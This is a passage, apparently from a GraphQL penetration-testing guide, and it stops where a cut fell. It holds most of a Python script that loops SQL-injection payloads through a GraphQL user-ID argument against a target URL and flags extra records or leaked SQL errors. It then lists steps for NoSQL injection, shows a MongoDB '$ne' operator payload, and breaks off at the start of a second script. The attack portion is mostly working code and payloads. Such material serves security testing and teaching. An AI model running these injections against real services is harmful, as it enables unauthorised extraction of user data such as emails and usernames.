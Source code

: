            for payload in payloads:
               query = f"""{{
                 user(id: "{payload}") {{
                   id
                   username
                   email
                 }}
               }}"""
               
               response = requests.post(url, headers=headers, json={"query": query})
               
               print(f"[*] Testing payload: {payload}")
               print(f"[*] Status code: {response.status_code}")
               
               if response.status_code == 200:
                   result = response.json()
                   # Look for signs of successful injection
                   if "data" in result and result["data"] and result["data"].get("user"):
                       if isinstance(result["data"]["user"], list) and len(result["data"]["user"]) > 1:
                           print("[+] Possible SQL injection - multiple records returned")
                           print(result["data"]["user"])
                       elif result["data"]["user"]:
                           print("[*] Single record returned:")
                           print(result["data"]["user"])
                   
                   # Check for error messages that might reveal SQL syntax
                   if "errors" in result:
                       for error in result["errors"]:
                           if "SQL" in error.get("message", "") or "syntax" in error.get("message", "").lower():
                               print("[+] SQL-related error detected:")
                               print(error["message"])
               
               print("-" * 50)
       
       # Example usage
       test_sql_injection("https://target.com/graphql", "user")
       ```
    
    3. **NoSQL injection via arguments**:
       - Step 1: Identify GraphQL APIs that might use NoSQL databases
       - Step 2: Test NoSQL-specific operators and syntax
       - Step 3: Look for error messages or data anomalies
       - Step 4: Refine payloads based on the database type (MongoDB, etc.)
       - Step 5: Extract data or manipulate queries
       - Example NoSQL injection in GraphQL:
       ```graphql
       {
         user(id: "1", username: {"$ne": null}) {
           id
           username
           email
         }
       }
       ```
       - Python script for NoSQL injection:
       ```python
       import requests
       import json
       